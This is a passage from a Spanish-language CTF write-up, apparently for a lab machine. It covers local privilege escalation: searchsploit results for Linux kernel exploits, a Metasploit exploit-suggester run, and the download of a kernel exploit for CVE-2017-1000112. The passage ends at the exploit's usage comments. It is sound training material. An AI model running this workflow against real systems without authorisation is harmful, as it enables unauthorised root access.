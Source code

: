 ```bash
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service                               | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                               | linux/local/43345.c
...
```

Son un buen, pero el que me llamo la atención fue este: **Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation**

Pero antes, si tienes la sesión activa del **Meterpreter** en **Metasploit**, entonces puedes usar el **modulo Suggester**, para que nos diga si encuentra algún exploit que pueda vulnerar la máquina.

Vamos por pasos:

* Busca el **modulo Suggester** y cargalo:

```bash
msf6 exploit(multi/handler) > search suggester
.
Matching Modules
================
.
   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester
.
.
Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester
```
* Configura el modulo y activalo:
```bash
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit
.
[*] 10.10.10.29 - Collecting local exploits for php/linux...
[-] 10.10.10.29 - No suggestions available.
[*] Post module execution completed
```
Vaya, pues no funciono. Bueno, nunca esta de más probar cualquier cosilla que se te ocurra que pueda ayudar, sigamos con el Exploit planeado.

<h2 id="PruebaExp">Probando Exploit: Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation</h2>

Vamos a descargarlo y a analizarlo:
```bash
searchsploit -m linux/local/47169.c
.
  Exploit: Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP)
      URL: https://www.exploit-db.com/exploits/47169
     Path: /usr/share/exploitdb/exploits/linux/local/47169.c
    Codes: CVE-2017-1000112
 Verified: False
File Type: C source, ASCII text
```
Excelente, nos da especificaciones sobre cómo usarlo:
```bash
// Usage:
// user@ubuntu:~$ uname -a
// Linux ubuntu 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
// user@ubuntu:~$ whoami
```